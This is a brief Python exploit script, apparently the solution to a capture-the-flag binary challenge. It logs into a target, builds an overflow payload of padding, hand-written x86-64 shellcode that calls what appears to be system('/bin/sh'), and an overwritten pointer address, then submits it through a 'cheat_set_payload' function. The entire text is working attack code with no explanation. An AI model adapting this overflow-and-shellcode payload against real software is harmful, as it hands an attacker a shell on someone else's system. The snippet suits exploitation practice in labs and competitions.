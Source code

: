 ```python
login("1","1")

paddings = 0x98
shellcode = "\x48\x8b\x1c\x25\x70\x50\x60\x00\x48\x81\xeb\xa0\xed\x03\x00\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\xff\xd3\x90\x90\x90"
payload = 'A'*8 + shellcode + 'A' * (paddings - 8 - len(shellcode)) + p64(0x605098)

cheat_set_payload(payload)
```